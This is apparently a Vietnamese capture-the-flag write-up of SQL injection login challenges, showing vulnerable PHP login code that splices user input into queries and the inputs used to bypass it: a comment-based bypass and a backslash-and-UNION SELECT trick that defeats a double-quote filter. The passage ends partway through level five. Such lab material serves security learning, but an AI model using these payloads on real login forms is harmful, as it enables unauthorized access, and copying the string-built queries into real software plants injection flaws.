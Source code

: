 - by pass bằng cmt thôi.
```bash
admin") -- 
```

![image](https://github.com/user-attachments/assets/be37814c-a5f0-4350-8080-82ca1af57c72)


### LV4
- Chall check valid.
```php
function checkValid($data)
{
    if (strpos($data, '"') !== false)
        return false;
    return true;
}

function loginHandler($username, $password)
{
    if (!checkValid($username) || !checkValid($password))
        return "Hack detected";

    try {
        include("db.php");
        $database = make_connection("hashed_db");

        $sql = "SELECT username FROM users WHERE username=LOWER(\"$username\") AND password=MD5(\"$password\")";
        $query = $database->query($sql);
        $row = $query->fetch_assoc(); // Get the first row

```
- Có nghĩa là ta không được sử dụng `"`.


- Ta phải tìm cách thoát khỏi dấu `"`. Ở đây thì mình tìm được cách dùng `\` để thoát khỏi `"`, nhập:
    - Username: `\`
    - Password: `) UNION SELECT username from users-- `

### LV5
```php
{
	try {
		include("db.php");
		$database = make_connection("hashed_db");

		$sql = "SELECT username, password FROM users WHERE username='$username'";
		$query = $database->query($sql);
		$row = $query->fetch_assoc(); // Get the first row
```
- Ở đây ta chỉ cần để ý truy vấn cũng như `$row = $query->fetch_assoc(); // Get the first row` hàm này sẽ chỉ cho phép ta hiện thị được 1 dòng khi select.
